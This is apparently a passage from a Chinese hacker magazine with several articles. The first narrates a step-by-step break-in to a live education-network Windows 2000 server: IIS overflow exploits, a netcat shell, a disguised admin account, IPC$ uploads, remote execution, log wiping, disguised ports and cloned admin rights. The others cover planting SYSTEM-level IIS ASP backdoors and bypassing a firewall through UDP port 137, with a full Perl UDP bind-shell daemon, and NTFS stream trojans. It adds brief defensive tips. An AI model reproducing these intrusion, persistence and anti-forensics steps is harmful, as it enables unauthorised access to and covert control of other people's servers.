| 周二 | 占领目标 | 通过漏洞获取尽量高的权限 |
| 周三 | 巩固阵地 | 充分伪装，并为被入侵的主机打补丁 |
| 周四 | 扩大战果 | 对内网进行渗透 |
| 周五 | 最终目的 | 更换主页 |

当然，这只是一个大概的计划，具体情况还要看入侵目标的实际状况而定了，假如他没有连接内网，那么我们周四就可以去喝茶了。

#### 二、预备工作

由于我的接入网络的原因，访问国外站点不是很方便，所以只好随便选个国内的 C 类 IP 段了。先拿出著名的扫描工具 xscaner2.3 来。它具有图形界面和命令行界面两种扫描方式，是国内安全焦点的大作，免费、速度快、界面友好、可扫描漏洞

全而等等优点都具备。

扫描报告中过滤出有用的信息：

```
端口 21 开放：FTP (Control)    是台 FTP 服务器
端口 80 开放：HTTP, World Wide Web    也是台主页服务器
端口 135 开放：Location Service
端口 139 开放：NETBIOS Session Service    强有力的入侵端口
... ... ... ... ... ...
[NetBios 信息]
主机名称："202.xxx.xxx.xxx"
操作系统：Windows NT
系统版本：5.0    是 2000SERVER 的操作系统
... ... ... ... ... ...
[网络共享资源列表 Level 1]：
"E$"：磁盘 - [默认共享] (System)
"IPC$"：进程间通信(IPC$) - [远程 IPC] (System)
"D$"：磁盘 - [默认共享] (System)
"print$"：磁盘 - [打印机驱动程序]
"HPDeskJel"：打印机 - [HP DeskJet 640C Series]
"F$"：磁盘 - [默认共享] (System)
"ADMIN$"：磁盘 - [远程管理] (System)
"C$"：磁盘 - [默认共享] (System)    这一大堆我很喜欢哦，入侵的一条通道

[网络用户列表 Level 2]：
...
TsInternetUser(ID:0x000003e8) - [这个用户账户被终端服务所使用。] 安装了终端服务
用户标记： 执行登录脚本 允许空口令 禁止改变口令 口令永不过期
账户类型： 标准账户
用户全称："TsInternetUser"

[网络用户列表 Level 3]：
Administrator - [管理计算机(域)的内置账户]
口令使用时间：507 Day 19 Hour 11 Minute 30 Sec.    1 年多都没有重新安装系统了
账户类型：管理员(Administrator)
最后登录时间：GMT Thu Apr 03 03:19:29 2003    看来管理员还是经常使用这台机器的
```

仔细看了看扫描报告，虽然没有遇到弱口令，但由于开放的端口比较多，好，就选这台机器了，202.xxx.xxx.xxx。是 Windows 2000 Server 的操作系统。看看开放的端口，是台 Web、FTP 服务器，先用浏览器看看是个什么站点再说。似乎是个教育网的不大的站点，凭经验来看，估计安全做得不怎么样，有很多教育网的服务器都不打 SP3 的，完全可以试试 IIS 的 ida 漏洞的。而且 ipc$ 也开着，还有很多默认的共享也都没有关掉。嘿嘿，看来是捡到便宜了。下面的工作就该针对这台服务器的情况收集需要的工具了，都需要找些什么呢？我们先来给这次行动的主角们拍个照吧，如图 1 所示。


也许很多菜鸟要傻眼了，这么多工具都是做什么用的啊？下面我们就来为这些软件做一个大概的介绍。

- 1. 扫描工具：Nmap 和 xscan 这两个文件夹是两大著名的扫描器了，基本功能相同，都可以检测开放的端口、常见的漏洞，并且速度比较快。在使用上各有优势，xscan 有全中文图形界面，扫描报告也是中文的，并且非常容易看懂，对于英文不好的菜鸟尤为适合了。具体使用哪款就看个人喜好了。
- 2. 后门工具：Gwboy2003 是一个比较新的木马程序，中文名叫作广外男生。虽然还只是个测试版，但是功能非常强大，具备端口反弹式连接的技术，并且具备远程监控图形界面，修改注册表等功能（小知识：端口反弹式连接是指被种木马的机器可以自动搜索提前设置好的固定 IP 的客户端程序，可以有效避免服务器端动态 IP 的问题，是一种新的木马技术。当然，由于对方是固定 IP 的服务器，在这里我们就用不到这个功能了）。我当时试验了一下，用诺顿的最新病毒库是无法查到这个软件的。为什么要用诺顿做测试呢，这主要根据经验了。国内的不少服务器都是使用诺顿做病毒防火墙的。Psexec 也是一个功能强大的后门程序，只要和对方建立了 ipc$ 连接，用它可以做很多操作的。
- 3. 漏洞溢出工具：webdavx3 是一款刚刚发布的针对微软 IIS 的最新漏洞的工具。idq.exe 也是一款针对 IIS 的攻击工具，虽然比较老了，但是对于没有打补丁服务器还是值得一试的。这两款软件都可以使我们获得一个很高的权限，是这次入侵的主角中的主角。Sqlexec 也是一款漏洞溢出的攻击程序，不过它是针对 sql 的。只要对方开放了 1433 的 sql 端口，我们就可以用这款工具来获得管理员权限。
- 4. 日志清除工具：elsave 可以清除对方机器的应用程序、系统、安全日志。Clearlog 可以用来清除 iis 的日志。
- 5. 其他工具：我们如果能得到对方的管理员权限，那么就可以用 ca 这个程序来将管理员的权限克隆给另外一个已经存在的账户，这样便可以做到神不知、鬼不觉哦。Cca 则是用来和 ca 搭配的检测程序，它可以检测对方是否存在某个用户或者你用 ca 克隆是否成功。Reboot 是用来给对方机器重新启动的。Ts 是用来给 2000server 的机器启动终端服务的。Tlist 和 kill 则是微软给我们提供的好工具，可以显示对方的进程和杀死某个进程。就在你的 2000 安装光盘中，资源工具包该听说过吧。Opentelnet 是用来给对方开启 Telnet 服务的，resumetelnet 当然是恢复到原来状态用的了。Nc 是一款小巧的瑞士军刀级的工具，文件很小，但是功能很强大。这次入侵我们主要用它来监听端口了。

idq.dll 这个文件在上面的 5 个类别都算不上了，它主要是用来创造一个漏洞的。呵呵，没写错吧，就是创造一个漏洞的—— idq 漏洞，可以和 idq.exe 这个程序搭配使用的。

这些软件的具体使用我们在入侵过程中再做详细介绍了。

哎，罗里罗唆了一大堆，预备工作做完了，睡个好觉，明天我们要进入实战阶段了。

#### 三、实战阶段

##### 1. 获取 system 权限：

根据扫描报告，对方存在 idq, ida 漏洞。尽管说这并不表明对方一定存在这个漏洞，我们还是首先拿出 idq.exe 和 nc 试试运气了。Idq 这个软件是图形界面的，很简单，添入 IP 地址，其他的设置都按照默认就可以了，然后选择一个操作系统，我们就先选择中文版的 2000sp2 好了，最后点击右下角的“idq 溢出”按钮，如图 2 所示。


如果对方的 iis 运行正常，我们会看到如图 3 所示的界面，当然，这并不表明溢出成功了。

我们还需要请出 nc 来验证一下。进入 Windows 2000 的命令行界面，到存放 nc 的路径下输入 nc vv 202.xxx.xxx.xxx 813。要选择 813 是因为我们在 idq 溢出程序中的设置位绑定端口为 813。如果设置为其他端口，那么做出相应调整就好。哎，比较失败，看来溢出没有成功，又试了几次，仍然不行。不管什么原因了，我们还是拿出另外一款溢出程序 webdavx3 来尽快搞定对方吧。仍然是在命令行格式下，输入 webdavx3 202.xxx.xxx.xxx ，如图 4 所示。


图 4

根据软件的提示，如果溢出的时间太长我们可以按下 Ctrl+C 来退出，然后输入 nc vv 202.xxx.xxx.xxx 7788。看来这次运气不错，溢出成功后就会显示图 5 界面。


图 5

注意了，这里的 C:\WINNT\system32 可不是我自己机器的路径了，而是对方的机器路径。也就是说，如果我们现在输入 dir，那么我们看到的就是对方的 system32 文件夹下的文件列表了。

到了这个时候，我们已经拿到了一个 system 权限的 shell 了，下面在它的机器里面溜达溜达，看看它有几个分区，有哪些网络连接等等。当然，最重要的不要忘记先给我们添加一个管理员账户。

##### 2. 添加管理员账户

输入 net user INSR_EIE /add 这条命令是用来添加一个叫做 INSR_EIE 的用户，EIE 是对方的机器名，细心的读者应该记得，在安装了 IIS 后我们的操作系统会多出几个类似用户名的账户，是用来给 IIS 匿名账户登录用的（小知识：这样一个用户名主要就是为了不让管理员起疑心，如果对操作系统不了解，这样的用户名想必他就算发现了也不敢随便删除的。在入侵中起用户名也是一项艺术哦。）下一步输入 net localgroup administrators INSR_EIE /add 这条命令，是用来将 INSR_EIE 这个账户添加到管理员组。不要忘记给我们的新管理员加一个密码哦，输入 net user INSR_EIE kekoukele，就将这个账户的密码设置为 kekoukele 了，如图 6 所示。


图 6

##### 3. 利用 ipc$ 上传工具

这里我们先来简单介绍一下 ipc$。Internet Process Connection，在微软的帮助文件中又被称为是共享命名管道的资源，它在远程管理计算机和查看计算机的共享资源时使用。在操作系统的默认安装情况下可以利用它远程建立一个空连接，或者是有一定权限的连接，可以在远程管理计算机时起到一定的帮助。利用它可以实现上传文件、获取目标的用户列表、共享资源等功能。但是 ipc$ 只支持 Windows NT、2000 和 XP 操作系统，也就是说它不支持 Windows 98 和 Windows Me。

另外，开一个命令行界面，输入 net use \\202.xxx.xxx.xxx\ipc$ "INSR_EIE" /user:"kekoukele"

这样，我们就建立了一个 ipc$ 共享连接，如果不习惯命令行操作方式的朋友还可以在开始菜单，“运行”中添入 \\202.xxx.xxx.xxx\c$，然后在出现的窗口中添入用户名和密码，这样就可以看到对方的 C 盘内容了，如果输入的是 d$，当然就看到 D 盘内容了。需要注意的是，ipc$ 通道在任一时刻只允许建立一个连接，假如我们建立了第一个连接后再次使用命令来建立连接，将提示错误的。

（小知识：常见 ipc$ 错误号列表：

- 1 错误号 5，拒绝访问 - 非管理员权限
- 2 错误号 51，Windows 无法找到网络路径 - 网络问题
- 3 错误号 53，找不到网络路径 - IP 地址输错了）

或者对方的lanmanserver服务未启动；也可能是对方安装了网络防火墙。
- 4错误号67，找不到网络名-对方删除了ipc$；
- 5错误号1219，提供的凭据与已存在的凭据集冲突-已经和对方建立了一个ipc$；
- 6错误号1326，未知的用户名或错误密码-密码打错了吧 )

下面我们要做的就是把我们的宝贝工具改个名字，上传到对方的硬盘上。上传的方式可以采用命令行copy system.exe \202.xxx.xxx.xxx\admin$，也可以先使用命令net use z: \202.xxx.xxx.xxx\c$将对方的C盘映射为自己电脑的网络驱动器，然后完成文件的复制和粘贴，如图7所示。在这里，我将clearlog改为了


system.exe(注意：admin$为在远程管理计算机的过程中系统使用的资源。该资源的路径始终是到Windows 2000的安装目录，例如，C:\Winnt)。

我们这次需要上传的文件有tlist、clearlog、kill、ts。

##### 4. 远程运行程序

我们的宝贝东东们都上传好了，那么怎么让它们运行呢?这就用到net time这个命令了。输入net time \202.xxx.xxx.xxx，我们就可以看到对方系统的时间了。

然后使用at命令，输入at \202.xxx.xxx.xxx 11:31 ts.exe和at \202.xxx.xxx.xxx 11:32 reboot.exe。

这两个命令是让ts.exe在11:31这个时间运行，reboot.exe在11:32这个时间运行，如图8所示。


因为从扫描报告中我们得知对方服务器安装了终端服务，但是又没有启动这个服务。所以我们来帮它启动，这样以图形化的界面来监控它会更加容易。完成了这两条命令我们就开始ping 202.xxx.xxx.xxx t 我们可以看到一会儿对方就time out了，再过了一段时间就又能ping通了，这就表明我们的reboot.exe程序运行成功了。然后，我们再次拿出xscan来进行扫描，发现终端服务的端口3389已经开放了，这表示ts.exe程序运行成功，并且成功启动了终端服务，下面我们就可以使用终端服务的客户端来进行图形界面的远程操作了，如图9所示，现在是不是比命令行舒服多了啊。


也许有人要说不是准备了木马程序吗，上传一个木马不是更不容易被发现吗?要知道我们现在还不清楚对方是否安装了病毒防火墙，如果安装了，安装的是什么病毒防火墙。如果因为病毒防火墙


墙导致我们功亏一篑，那可就太不划算了。不要忘了我们上传了 tlist 和 kill 这两个小程序，现在就该它们大显身手了。利用刚才远程溢出获得的那个界面，在对方操作系统根目录下输入 tlist ，我们将会看到对方的进程列表。这样，我们就可以知道对方的机器正在运行什么程序了，如图10所示。

第一列的数字表示对应进程的 ID ，也就是 pid ，这时我们就可以得知对方运行了哪些程序了，然后我们可以使用 kill.exe 来终止进程，只要输入 kill pid 就可以了。这样，对方的防火墙就不会成为我们的绊脚石了，接下来如果愿意，就可以上传木马程序了。由于我已经可以通过终端服务的图形界面控制对方，就懒得再去用木马程序了。

# ### 5. 开启 Telnet 服务

Telnet 服务一直被入侵者视为绝佳的法宝，从扫描报告中我们得知对方并没有开启 23 端口，也就是说没有启动 Telnet 服务。那么下面我们就通过 opentelnet 这个程序来帮对方开启 Telnet 服务。在命令行格式下输入 opentelnet.exe \202.xxx.xxx.xxx INSR_EIE kekoukele NTLMAuthor 23 就可以了，如果 Telnet 服务开启成功，那么就会出现如图 11 所示提示，下面我们就可以通过 Telnet 方式控制对方了。


这里顺便提一下，如果需要开启其他服务，我们也可以通过计算机管理的远程连接功能实现。这个功能还可以实现事件日志的清除，非常方便，不过前提是我们需要建立一个管理员权限的 ipc$ 连接，如图 12 所示。

# ### 6. 清除日志文件

今天已经拿到最高的权限了，而且除了 Telnet


的还有图形界面的哦。时间也差不多了，该给 mm 打电话了，于是准备离开。离开之前当然要清除掉记录有人入侵痕迹的日志了。这时就要用到 elsave 和 clearlog 了。需要注意的是 clearlog 是需要在远程计算机上运行的，而 elsave 是在我们本地计算机上运行就可以的。再次 Telnet 到对方计算机上，因为我已经将 clearlog 上传到对方硬盘了，并且改名为 system.exe 了，所以到相应路径下输入 system.exe 就可以了。

这样就清除了 IIS 日志，然后我们还需要在本地计算机上运行 elsave 来清除对方的应用程序、安全、系统日志。输入 elsave /? 便会看到具体用法的，很简单，这里就不多说了。只是需要注意这个程序也是基于我们建立了 ipc$ 连接的基础上的。

这一阶段到这里就可以搞定收工了。比较累了，给 mm 打电话去喽。

# ## 四、巩固阵地

今天要做的工作不是很多，但是需要特别谨慎。一个有如此多漏洞的服务器很难保证不会被别人入侵，那么我们要做的就是为这个服务器打上补丁，留一个隐蔽的后门，以便我们以后进入。

# ### 1. 为系统打补丁

由于这个系统没有安装 SP3，所以我们当然首先是要使用终端服务去帮它下载一个 SP3 来安装

了，然后还需要到微软官方网站上去下载最新的 IIS 补丁，如果嫌麻烦，直接使用 windowsupdate 就可以了。总之，这一步的原则是尽可能修补所有的系统漏洞。

# ## 2. 修改 Telnet 服务的端口

修改端口会让其他的入侵者做出错误判断，这样更有利于保护我们的肉鸡。用终端服务登录上去，打开对方管理工具中的 Telnet 服务器管理项，按照提示选择 3 来更改设置，如图 13 所示，然后再选择 8 更改 Telnet 的端口，只要不与其他端口冲突就可以了，这里我选择了 130 端口。


# ## 3. 修改终端服务的端口

与第二条同样的道理，不过这次我们修改的除了服务器端，还需要修改客户端的端口配置。在服务器端只需要通过修改注册表的两个地方就可以达到目的，分别是 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp 下，找到 PortNumber，选择为十进制，添入 8080 (8080 端口为代理服务器的端口，开放这个端口既不会令人怀疑，也能起到迷惑他人的效果)。然后再到 LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP--Tcp 下找到 PortNumber 进行更改就可以了。这样，就修改好了终端服务的服务器端端口。第二步要做的是在我们的机器上的客户端连接管理器中建立客户端连接的快捷方式，这个快捷方式当然是对应 202.xxx.xxx.xxx 这个 IP 了。然后选中这个快捷方式，在“文件”菜单里选择“导出”，将生成的 .cns 文件放到桌面上，用文本文件打开它，在里面寻找“Server Port=3389”，将 3389 修改为 8080 后保存。最后再选择“文件”菜单里的“导入”，把修改后的 .cns 文件导入回去就可以了。

这时我们再对目标机器进行扫描，会发现对方开放了 130 和 8080 端口，并且扫描器会将这两个端口分别识别为 cisco FNATIVE 和代理服务器端口，如图 14 所示，是不是很具有伪装性啊。下面


我们就需要使用 ca 和 cca 这两个软件来将管理员的权限克隆给一个对方已存在的账户，毕竟这样才具有更好的隐蔽性，我们建立的账户迟早会引起对方管理员的怀疑的。在自己机器的命令行格式下输入 ca.exe \202.xxx.xxx.xxx INSR_EIE kekoukele aaa kekoukele123，这样我们就把管理员权限克隆给 aaa 这个账户了 (aaa 具体选择哪个账户可以随便了，只要是对方不常使用的账户就可以了)。这种添加权限的方式是不会在对方的“本地用户和组”中被发现的，所以它具有很大的隐蔽性。

到了这里，我们的阵地就已经基本巩固了。最后退出战场的时候可不要忘了仍然需要清楚日志文件哦。今天由于使用了终端服务进行登录，所以需要多删除一个 Documents and Settings 路径下的 INSR_EIE 这个文件夹。

由于这台机器并没有连接内网，而我们这次入侵也只是为了测试的目的，因此周四和周五的计划就可以不用做了。

# ## 五、最后的思索

这次入侵虽然运气不是非常好，没有遇到管理员空口令的好运，但是也还算顺利。基本按照计划实现了每一步所要求的任务。而最令人担忧的是，我们可以看到这次入侵并不需要多么高深的技术，只要具备一定的操作系统和网络知识，对一些软件比较熟悉就可以做到。这表明一个不足够安全的服务器在如今看来是多么的危险。那么，如何才能保证你的个人服务器不会轻易地被人攻破呢?我们将在后面的系统管理员防御篇来解决这个问题。

# # 利用 IIS 缺陷 配置 ASP 后门

> > 一个好的后门不仅能够为入侵者提供方便，还应该更好地隐藏自己。这里介绍一种方法，利用 IIS 配置上的缺陷，达到配置和隐藏后门的目的。

文/舒云

由于新的漏洞不断出现，加上一些工具的傻瓜化和某些管理员的不负责任，攻略一台配置不好的系统已经不是很困难的事情了。但是很多人攻略了系统之后不知道该如何配置一个好的后门，竟然直接添加hacker之类的系统管理员账号，视管理员如无物的气魄确实令我等汗颜……然而，到底怎样才能够做一个好的后门呢？

目前，还不能被杀毒软件查杀的恐怕只有ASP、PHP之类的后门了，比如海洋木马XP版本，它去掉了被查杀的能够执行系统命令的cmd.asp后，已经是一个正常的文件管理系统了，仅仅能够查看文件信息和上传文件，也能够执行一些不带参数的命令。我想，只要可以执行命令，即使不能够带参数也够了，因为我们可以写bat文件上传，然后运行。惟一的缺点就是IIS进程—IWAM_NAME账号启动，得到的仅仅是guest权限，那么有办法改变这个缺点吗？有，下面我就说说如何利用IIS的缺陷配置system权限ASP后门的几个方法：

第一种方法，很简单，既然IIS进程是以IWAM_NAME账号启动的，那么，我们将IWAM_NAME账号加入administrator组里面，IIS进程就是以administrator权限启动的了。一条命令

```
bash
net localgroup administrators /add
```

就完成了，这样，我们就得到了administrator权限的ASP后门了。可以通过上传bat文件执行任何系统命令了，但是把IWAM_NAME账号加入administrators组中仍然是很危险的事情，万一管理员发现了呢？

第二种方法，依然很简单，但是被发现的可能性稍微小些。把IIS应用程序保护由默认的“中(共用的)”改为“低(IIS进程)”就可以了，基本步骤如下：开始菜单—>程序—>管理工具—>Internet服务管理器—>默认Web站点属性，然后修改即可，如图1所示。


第三种方法比较复杂，但是效果比较好，也比较隐蔽，首先介绍一下IIS的基本知识。几乎所有IIS的配置信息都包含在%SystemRoot%\system32\inetsrv目录下的IIS的配置文件MetaBase.bin中，MetaBase.bin文件的结构类似注册表，它有两个主键：LM和Schema。LM主键下面有W3SVC/InProcessIsapiApps键，这是一个数组，里面包含的是一组指向一些ISAPI的路径。在这个数组里面的ISAPI运行的时候都是由inetinfo.exe直接启动的，继承inetinfo.exe的local system权限；而不在其中的ISAPI则是由svchost.exe派生的dllhost.exe进程启动的，运行的身份是IWAM_NAME，当然，这是IIS默认的安全级别“中”的情况下，如果设为低，那么所有ISAPI都会由inetinfo.exe直接派生。这里，就是第二种方法实现system权限的ASP后门的原理所在。

我们知道，ASP 脚本是由 C:\WINNT\system32\inetsrv 目录下面的 asp.dll 文件解释执行的。默认的，asp.dll 不在数组 InProcessIsapiApps 中，所以 asp.dll 是由 svchost.exe 派生的 dllhost.exe 进程启动的，运行的身份是 IWAM_NAME。那么，如果我们手动将 asp.dll 文件加入到数组 InProcessIsapiApps 中，asp.dll 岂不是由 inetinfo.exe 直接启动，继承 inetinfo.exe 的 local system 权限，以至于我们得到 system 权限的后门？对，就这样！

在 C:\Inetpub\AdminScripts 目录下有个文件 adsutil.vbs，它就是修改 IIS 的配置用的，我们先查看数组 InProcessIsapiApps 中有哪些 isapi，如图 2 所示。


注意我用红线框出的地方，这个地方要注意别写错了~还有，看第一行有 idq.dll 吧，所以以前的那个 idq 溢出得到的是 system 权限。好了，现在我们把 asp.dll 也加进去，注意：这个数组不能够修改，只能够覆盖，所以记得把所有的一起加进去，看我怎么做的，如图 3 所示。


注意，我画红线的地方是我输入的命令，下面

的是回显，哈哈，看最后面，有 asp.dll 了吧？这样，所有的 ASP 脚本都是以 system 权限运行了~~这样的后门够隐蔽吧？看看我的 ASP 后门运行结果？如图 4 所示。


第四种方法，这种方法是最困难的，但是也是最隐蔽的一种。在 IIS 的配置文件 MetaBase.bin 中有 ScriptMaps 键，即脚本映射。在某个目录下设定该值后，则向该目录请求的特定扩展名的文件会交给指定的 ISAPI 执行。这样，只要创建一个特定扩展名的脚本映射，比如 china，指向一个特殊的 ISAPI，并把该 ISAPI 添加到 InProcessIsapiApps 数组中。那么，向服务器请求该扩展名类型文件时就会在服务器上以 local system 权限执行该 ISAPI。我刚学程序，还没有这种实力写个 dll 文件运行，幸好已经有高手摆平了~，听 envymask 说安全焦点(http://www.xfocus.net)的 isno 写了个 IISapi.dll 文件，能够得到 shell，并且 envymask 为这个 dll 写了个安装批处理，有兴趣的可以去 envymask 的主页下载，地址是 envymask.3322.org，他可是脚本狂呀！去我的烂页子也可以，我特地也放了个。这个后门确实比较阴险，也难以查出来，而且可以突破防火墙的封锁，因为他利用的是 80 端口，一个网站，80 端口总是要开的呀！下面就是我利用 isno 的那个 dll 文件通过连接 80 端口得到的 system 权限的 shell，成功突破防火墙，如图 5 所示。

最后说说防范的办法。第一种和第二种后门，管理员只要小心看看就可以发现了。第三种就只有利用 adsutil.vbs 来找了，用命令 `cscript adsutil.vbs get w3svc/inprocessisapiapps`。

Sygate Personal Firewall 是一个简单易用的个人防火墙,适合于那些网络中的单机用户来防止入侵者非法进入系统。作为一个基于主机的解决方案,该软件提供了多层保护的防火墙安全环境,可以有效地防止入侵者和黑客的侵袭。与真正的防火墙不同的是,Sygate Personal Firewall 是一台双向防入侵系统,能够从系统内部进行保护,并且可以在后台不间断地运行。另外,该软件还提供有安全访问和访问监视功能,并可向你提供所有用户的活动报告,当检测到入侵和不当的使用后,能够立即发出警报。它能保护你的计算机不受黑客及其他入侵者的破坏,防止你的计算机上的未授权程序连接网络。Sygate Personal Firewall 使得计算机对外界来说不可见,它在连接到私人网络或因特网的计算机上工作,该程序保护你的商业、个人、金融和其他数据安全、可靠。最新版本还为查看安全记录增加了一个新的消息控制台,改善了 VPN 支持,并改进了防火墙引擎的性能。本文主要讨论的是 SyGate Pro 的攻击。

# # 绕过 SyGate Pro 个人防火墙的攻击

文 / 朱平

SyGate Pro 最新版本 v5.0 存在着一个漏洞：默认配置下，来自 UDP 源端口为 137 或 138 的通信可以通过防火墙进行转发通信。攻击方法：nmap -vv -P0 -sU 192.168.1.133 -g 137 192.168.1.133 为目标主机。

如何？首先我们用强大的 TCP SYN 扫描都刺探主机，nmap 结果显示主机是关着的 (Host seems down)。第二次我们改成 udp 端口探测 (为了验证其他 udp 端口的连接，我们并没有定向到指定端口探测)，幸运的，我们和主机 KUIN2 连接上了，看来 Sygate Pro 5.0 把从 UDP 源端口 137 或 138 的包进行了转发通信。为了验证这一点，我们进入目标主机 192.168.1.133 查看 Sygate Pro 5.0 的 LOG。

# ## 一、演示

假设 192.168.1.133 是一台运行 Sygate Pro 5.0 的主机，Sygate Pro 5.0 使用的是默认配置。

结果如图 1 所示：

192.168.1.3 是我们的工具机，系统环境为 Windows 2000 Professional。下载最近版本的 nmap3.0 for Windows，安装后在 dos 下运行如下命令：

```
C:\nmap>nmap -vv -sU -P0 192.168.1.133 /* udp 端口探测 */
Starting nmap V. 3.10ALPHA1 ( www.insecure.org/nmap )
Host KUIN2 (192.168.1.133) appears to be up. . . good.
Initiating UDP Scan against KUIN2 (192.168.1.133)
```


图 1

很明显, Sygate Pro 5.0 过滤了除 137、138 以外所有的 UDP 包及所有的 ICMP 包,并用 137、138 端口向外发送了大量的 udp 数据包。可以看出,通过 137、138 端口的 UDP 数据包可以肆无忌惮的进

使用 Sygate Pro 5.0 防火墙。图中 Source IP 表示源地址 IP，Direction Host 表示目标地址 IP。Action 选项中 Allowed 表示允许，Blocked 表示阻止。

### 二、攻击

外部：抓住其只对 UDP 源端口为 137 或 138 的通信进行转发的弱点，我们可以将自己的数据利用 UDP 包头封装起来，就可以通过 FireWall 执行命令了，在这方面的现有软件是 LOKI 与 lokid (client&server)。

内部：Sygate Pro 5.0 是双向防入侵系统，不像一般的 FireWall，只对外部进入的连接进行限制，并不理会内部向外的连接，因而常被一些反弹木马攻破。因此，我们从内部的连接也只能把通讯端口构建在 Sygate Pro 5.0 允许自由通讯的 137、138 端口上，连接协议为 UDP。

UDP 的后门程序有 daemonshell-udp，它来自 [THC] - The Hacker's Choice。下面有个 Perl 程序大家可以参考一下：

```perl
#!/usr/bin/perl
# mini shell-daemon using UDP in perl by van
# Hauser / [THC] in '97
$SHELL="/bin/sh -i"; # which shell to spawn
$MASK="vi"; # name to mask this program
$LISTEN_PORT=30001;                 # on which
port to listen
$PASSWORD="oslYV4GHw0x26"; # crypt(3)
# encrypted password like those in
# the passwd/shadow file. This is "THC".
require 5.002;
use Socket;
if ($MASK) { for ($a=1;$a<80;$a++) {
    $MASK=$MASK." \000"; } $0=$MASK; }

$protocol = getprotobyname('udp');
socket(S, &PF_INET, &SOCK_DGRAM,
$protocol) || die "can't create socket\n";
setsockopt(S, SOL_SOCKET, SO_REUSEADDR,
1);
bind(S, sockaddr_in($LISTEN_PORT,
INADDR_ANY)) || die "can't bind\n";

vec($sin, fileno(S), 1) = 1;
AGAIN: while (! select($sout = $sin, undef,
undef, 0.5)) {}

$remote = recv (S, $try, 9, 0);
chop($try);
if (crypt($try, $PASSWORD) ne $PASSWORD) {
    goto AGAIN;
}

connect(S, $remote) || die "can't connect to
remote\n";
pipe PREAD, PWRITE;

if (! ($pid=fork())) {          # we need to fork
    # and use a pipe to get
    close PWRITE;               # the input
    # into $SHELL without hurting the
    send (S, "OK\n", 0);        # data. if
    # directly doing open STDIN, "<&S"
    open STDIN, "<&PREAD"; # $SHELL
    # will only get every 1st char of a
    open STDOUT, ">&S";         # line netcat
    # has got this problem too, hence
    open STDERR, ">&S";         # it seems to
    # be a problem of the shell ...
    exec $SHELL || print STDOUT "couldn't
    spawn $SHELL\n";
} else {
    close PREAD;
    select PWRITE; $|=1;
    vec($sin, fileno(S), 1) = 1;
    AGAIN: while (! select($sout = $sin, undef,
    undef, 0.0000001)) {}
    recv (S, $in, 10, 0);
    print PWRITE "$in";
    goto AGAIN;
}
```

### 三、防范

137 端口除了提供该机的计算机名和注册用户名以外，还可以得到该机是否为主域控制器和主浏览器、是否作为文件服务器使用、IIS 和 Samba 是否正在运行以及 Lotus Notes 是否正在运行等信息。

138 端口也和 137 端口一样会向外部发送自己的信息。尽管信息量没有 137 端口那么多，但其特点是会被别人得到 Windows 的版本信息。比如，会泄漏 Windows 版本是 Windows 2000 Server。138 端口也提供 NetBIOS 的浏览功能，该功能用于显示连接于网络中的电脑一览表。比如，在 Windows 2000 中由“网上邻居”中选择“整个网络”后，就会完整地显示连接于网络中的电脑。

一般情况下，这是一种在连接在因特网上的公开服务器不需要的服务。对于在公司内部网络环境中构筑 Windows 网络的电脑来说，NetBIOS 则是必要的服务。考虑到这是一款个人防火墙，适用于网络中的单机用户，因此 NetBIOS 相对来说并不是那么重要。以下我们就来说说如何屏蔽 137、138 端口。

- (1) 控制面板中选择目前正在使用的网络连接，在属性窗口中查看“Internet 协议 (TCP/IP)”的属性。在“常规”页标中单击“高级”按钮，在“WINS”页标中选择“禁用 TCP/IP 上的 NetBIOS (S)”，即可关闭 137、138 以及 139 端口。
- (2) TCP/IP 筛选的方法，可以简单的限制不需要的端口。网上邻居——属性，本地连接——属性，Internet 协议(tcp/ip)——属性——高级——选项，tcp/ip 筛选——属性——启用 TCP/IP 筛选 (所有适配器)，其中就有 UDP 端口的选择。
- (3) 以上只是从系统本身来过滤端口，其实软件本身的规则设定完全可以做到万无一失，如图 2 所示。
- (4) 如果你还嫌麻烦的话，点击主面板上的 Block all 按钮就什么事都没了，如图 3 所示。


(上接 69 页)


来查看有哪些 dll 文件了，至于第四种后门，就比较麻烦。我看了下 envymask 的安装批处理，它是把 isno 写的 IISapi.dll 文件覆盖了解释 printer 映射的 msw3sprt.dll 文件，在目录 C:\winnt\system32 下面。但是任何人都可以修改名字，查找起来很麻烦，而且，不知道是后门还是正常的 msw3sprt.dll，只有比较文件大小和修改日期了。我想了下，先把除了 asp、asa 以及一些确实有用的映射外，其余所有的全部删除。这样以后只要定期使用 cscript adsutil.vbs set /w3svc/scriptmaps 和 cscript adsutil.vbs get /W3SVC/InProcessIsapiApps 来分别检查 scriptmaps 和 InProcessIsapiApps 下面是否有特殊的映射就一清二楚了。这也许是最好的办法吧？当然我没有测试过，因为这是违法行为，我怕……其实最好的方法应该是平时做好系统的安全防范工作，让别人没有机会装后门吧~可惜有几人能够如此？

好了，这篇文章到此结束，希望对大家有所帮助。如果有任何想法，请联系我，我的 E-mail 是 wustyunshu@hotmail.com 。

## 杀毒软件能耐我何
### ——利用 NTFS 数据流制作木马后门
文 / 欲望之翼

虽然在NTFS文件系统中存在数据流形式已经是几年前的事情了，但是反病毒厂商并没有充分地认识到要检查这一方面的文件，这给一些病毒和后门提供了有机可乘的机会，其最终造成的结果很可能无法估量，就如下文所要讲的一样！

微软在 20 世纪 90 年代初期就引入了一种称为“数据流”的概念，在我们普遍使用的 Windows 2000 系统中，数据流主要是用来存放文件的摘要信息。这些信息可以通过 Windows 的资源管理器属性功能加以修改。NTFS 与 FAT 两者在这方面最大的差异便是后者的文件仅由一个数据流构成，但前者却可以在同一个文件内存放多个数据流。例如：独立执行模块或记录文件存取权限、加密、日期与时间等信息的不同服务模块，统统都可以放在同一个文件内。

当使用者打开 NTFS 文件时，操作系统会自动执行文件中的主要数据流，也就是所谓的缺省数据流。我们这里可以用下面这样简单的指令来存放在其他数据流中的数据：<文件名>:<数据流名称>，例如输入以下的字符串 net.exe:test.vbs，便可以打开存放在 net.exe 中的数据流 test.vbs，我们只要把这个语法放在程序代码中，就可以方便地执行其他文件中的任何一个数据流，当然前提是我们已经把数据流放到该文件中。显然，数据流有它的特点，是一种隐藏很深的文件存取模式，看起来是个不错的点子，但是我们却可以用它来搞些破坏，那么我们为什么可以使用它呢？

### 为什么可以使用 NTFS 数据流

